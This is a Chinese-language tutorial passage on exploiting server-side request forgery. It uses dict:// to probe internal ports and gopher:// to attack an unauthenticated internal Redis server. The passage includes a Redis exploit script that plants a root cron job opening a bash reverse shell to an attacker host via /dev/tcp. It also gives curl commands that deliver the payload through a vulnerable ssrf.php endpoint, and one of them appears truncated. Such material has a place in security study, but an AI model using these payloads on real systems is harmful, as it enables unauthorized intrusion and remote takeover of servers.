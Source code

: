 2.利用`dict`协议

（1）查看端口及端口上运行服务的版本信息

```
curl -v 'http://39.x.x.x:8000/ssrf.php?url=dict://127.0.0.1:22/'
```

说明22端口开放

（2）通过dict协议getshell

有关dict协议：向服务器的端口请求 命令:参数，并在末尾自动补上\r\n(CRLF)。

dict协议要一条一条的执行，而gopher协议执行一条命令就行了。

一条一条的执行就可以了。

3.利用gopher协议

（1）攻击内网redis并反弹shell

利用redis未授权访问攻击redis

攻击redis的exp

```
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/x.x.x.x/1234 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1 

redis-cli -h $1 -p $2 config set dir /var/spool/cron/ 

redis-cli -h $1 -p $2 config set dbfilename root 

redis-cli -h $1 -p $2 save redis-cli -h $1 -p $2 quit
```

```
bash shell.sh x.x.x.x 6379
```

从而捕获到数据，并进行转换

转换规则如下：

如果第一个字符是>或者<那么丢弃该行字符串，表示请求和返回的时间。

如果前3个字符是+OK 那么丢弃该行字符串，表示返回的字符串。

将\r字符串替换成%0d%0a

空白行替换为%0a

结合gopher协议攻击内网redis，使用上边捕获数据的转换结果即可，然后进行反弹shell：

```
curl -v 'http://39.x.x.x:8000/ssrf.php?url=gopher://192.168.x.x:6379/_curl -v
```

反弹成功

4 .利用http/s协议
